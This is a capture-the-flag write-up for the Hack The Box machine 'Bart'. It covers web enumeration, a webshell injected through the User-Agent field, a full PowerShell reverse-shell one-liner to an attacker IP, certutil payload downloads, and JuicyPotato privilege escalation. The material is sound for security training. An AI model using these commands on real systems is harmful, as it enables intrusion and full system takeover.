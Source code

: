 # HTB - Bart

#### Ip: 10.10.10.81
#### Name: Bart
#### Difficulty: Medium

----------------------------------------------------------------------

![Bart.png](../assets/bart_assets/Bart.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.81 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 12:14 CDT
Nmap scan report for 10.10.10.81
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```

Ok looks like just port 80 is open here. Lets add forum.bart.htb to our `/etc/hosts` file.

Taking a look at the webpage we find a company page:

site.png

taking a look at the page source we also find a comment left behind that includes a name:

name.png

Because port 80 redirected to forum.bart.htb I wondered if there were more domains we could fuzz. Lets try using wfuzz:

wfuzz.png

Ok cool, looks like there is also a monitor.bart.htb- lets add that to `/etc/hosts` as well.

This leads us to a server monitor page. 

monitor.png

Because we've found the username harvey, I tried some random passwords and got lucky logging in with the credentials harvey:potter, which we found in the page source comment on forum.bart.htb. 

login.png

Looking in the Severs section of the page we find yet another domain to add to `/etc/hosts`

Navigating to the site we find another login page:

dev.png

Trying the credentials harvey:potter again we get a verbose error message `The Password must be at least 8 characters`. But if we try a user we know won't exist like testing:testing123 we get the message `Invalid Username or Password`. This leads me to believe that the user harvey is a valid username here. 

Trying some more directory scanning we find the page http://internal-01.bart.htb/simple_chat/register_form.php. Navigating to the page we get the message `The page cannot be displayed because an internal server error has occurred.`

Searching Google for simple_chat/register_form.php I find this GitHub page which contains source code for the page. https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php

gh.png

Cool, looks like the page wants two fields uname and passwd. Lets try creating a new user using curl and making a POST request to /register.php

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=testing&passwd=password123"
```

Nice, that seemed to work. Lets return to the login page and authenticate.

in.png

Awesome, that worked! 

Taking a look at the source code we find an interesting link and function:

source.png

Capturing this in Burp and playing around with it a bit, I find that the User Agent field is vulnerable. I can inject a webshell into the field and get execution on the box:

php.png

whoami.png

Heading over to https://www.revshells.com/ and grabbing a PowerShell reverse shell and URL encoding it, I can set up a NetCat listener and get a reverse shell back:

burp.png

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.81] 50147
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log> hostname
BART
PS C:\inetpub\wwwroot\internal-01\log>
```

### Privilege Escalation

At this point, I still don't seem to have access to the user.txt flag, so let's try to escalate privileegs to administrator.

Running `whoami /all` I see that `SeImpersonatePrivilege` is enabled. This means we may be able to try something like juicy potato to escalate privileges. 

First we'll need to create a file called shell.bat:

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.72',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then we'll need to transfer to the target the shell.bat file as well as juicy potato:

```text
certutil -urlcache -split -f "http://10.10.14.72/shell.bat"

certutil -urlcache -split -f "http://10.10.14.72/JuicyPotato.exe"
```

```text
PS C:\TEMP> dir


    Directory: C:\TEMP


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       06/09/2023     19:24         347648 JuicyPotato.exe               
-a----       06/09/2023     19:23            522 shell.bat 
```

Next we'll set up a NetCat listener and run:

```text
C:\TEMP\JuicyPotato.exe -l 444 -p C:\TEMP\shell.bat -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

And we will catch a shell back as nt authority\ system!

jp.png

All we have to do now is grab the user.txt and root.txt flags:

flags.png

Thanks for following along!

-Ryan

----------------------------------------
